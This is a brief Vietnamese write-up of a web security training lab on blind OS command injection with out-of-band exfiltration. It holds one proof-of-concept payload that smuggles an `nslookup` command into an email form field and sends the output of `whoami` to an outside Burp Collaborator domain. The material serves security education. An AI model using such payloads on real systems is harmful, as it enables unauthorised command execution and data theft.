





# Writeup Lab: Blind OS command injection with out-of-band data exfiltration

## Goal
Mục tiêu của LAB này chúng ta tìm cách truy vấn DNS tới server bên ngoài và tương tác lệnh shell ra ngoài băng tần
## Khai thác
Cũng giống như các LAB trước chúng ta thử nhập giá trị form submit với giá trị bất kì và kết quả lịch sử HTTP Burp Suite trả về chuỗi rỗng

Tới đây cũng đã quen với os rồi bây giờ tôi sẽ kích hoạt shell ra ngoài bằng tần bằng cách chèn payload vào tham số email như sau
## POC 
`x|| nslookup `whoami`.mg6ata1msaoj6yfjnlmb6d3lcci46uuj.oastify.com ||`

Kết quả lúc này nó sẽ DNS tới server burp colabrator kèm theo lệnh đã thực thi whoami xác định người dùng hiện tại như sau:

Tiến hành lấy user và submit solution hoàn thành LAB
